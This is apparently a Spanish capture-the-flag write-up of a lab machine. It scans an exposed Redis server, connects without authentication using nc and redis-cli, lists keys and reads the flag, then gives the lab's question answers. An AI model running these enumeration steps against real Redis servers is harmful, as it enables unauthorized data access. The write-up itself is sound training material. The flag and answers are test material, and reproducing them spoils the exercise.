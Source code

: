 # Reedemer WriteUp
#Redis 
#Anonymous
#BasesDeDatos

```java
IP atacante: 10.10.16.133
IP victima:  10.129.195.219
```

`$nmap -p- -Pn -n --min-rate 5000 10.129.195.219`
```java
PORT     STATE SERVICE
6379/tcp open  redis
```

`$sudo nmap -p6379 -sSCV 10.129.195.219`
```java
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
```

>Redis (**RE**mote **DI**ctionary **OS**Server) es un almacén de clave/valor NoSQL de código abierto, en memoria, que se utiliza principalmente como caché de aplicaciones o base de datos de respuesta rápida.[¹](https://www.ibm.com/mx-es/topics/redis)

>La arquitectura de Redis es tipo cliente-servidor, pueden estar en el mismo nodo o estar distribuidos.  
>El servidor se encarga de almacenar datos en memoria.
>El cliente puede tratarse de la **Redis CLI**: su herramienta de consola, o bien una API. 
>La replicación (duplicación de datos) en Redis es de tipo **maestro-esclavo**.
>Cada servidor puede tener varias réplicas, que además de lecturas, también pueden configurarse para aceptar escrituras.[²](https://aprenderbigdata.com/redis/)

Vemos algo importante, habla de **redis-cli**, indagando en hacktricks podemos ver esto:

>Redis es un protocolo basado en texto. Envía el comando en un socket y los valores devueltos serán legibles. Puede ejecutarse con SSL/TLS (aunque esto es bastante inusual). En una instancia normal de Redis, puedes conectarte usando nc o también puedes usar redis-cli:
>>`nc -vn 10.10.10.10 6379`
>>`redis-cli -h 10.10.10.10 # sudo apt-get install redis-tools`

Comenzamos a probar lentamente y después jugamos con la herramienta.
Pero hablando del `cli`, muy fácilmente logramos hacer una key de prueba:
```java
10.129.195.219:6379> SET my_key Tumama
OK
10.129.195.219:6379> get my_key
"Tumama"
10.129.195.219:6379> 
```

Tomando en cuenta la opción mediante `nc` (Banner Grab), también podemos enumerar información.
`$nc -vn 10.129.195.219 6379`
```java
(UNKNOWN) [10.129.195.219] 6379 (redis) open
INFO
$3295
# Server
redis_version:5.0.7
...
```

Listaremos las bases de datos y número de claves con `INFO keyspace`, donde la cantidad incluye la key que creamos, no parece de mucha utilidad, tal vez para después.
```java
INFO keyspace
$44
# Keyspace
db0:keys=5,expires=0,avg_ttl=0
```

Uno de los comandos para explotar información es `KEYS *`. Y obtenemos información interesante:
```java
KEYS *
*5
$4
temp
$4
flag
$6
my_key
$4
stor
$4
numb
```

Podemos notar que está nuestra llave de prueba y la podemos leer. Lo mismo con la flag.
```java
get  my_key
$6
Tumama
get flag
$32
t3L4c0M15t3eNT3r4953eb03e1d2b376
```

Preguntas
1. ¿Qué puerto TCP está abierto en la máquina?
	  6379
2. ¿Qué servicio se ejecuta en el puerto abierto de la máquina?
	  redis
3. ¿Qué tipo de base de datos es Redis? Elija entre las siguientes opciones: (i) Base de datos en memoria, (ii) Base de datos tradicional.
	  i
4. ¿Qué utilidad de línea de comandos se utiliza para interactuar con el servidor Redis? Introduzca el nombre del programa que introduciría en la terminal sin argumentos.
	  redis-cli
5. ¿Qué flag se utiliza con la utilidad de línea de comandos de Redis para especificar el nombre de host?
	  -h
6. Una vez conectado a un servidor Redis, ¿qué comando se utiliza para obtener la información y las estadísticas sobre el servidor Redis?
	  info
7. ¿Cuál es la versión del servidor Redis que se utiliza en la máquina de destino?
	  5.0.7
8. ¿Qué comando se utiliza para seleccionar la base de datos deseada en Redis?
	  select
9. ¿Cuántas claves hay dentro de la base de datos con índice 0?
	  En la salida obtuvimos 5 por la modificación, la respuesta esperada es 4.
10. ¿Qué comando se utiliza para obtener todas las claves de una base de datos?
	  keys *
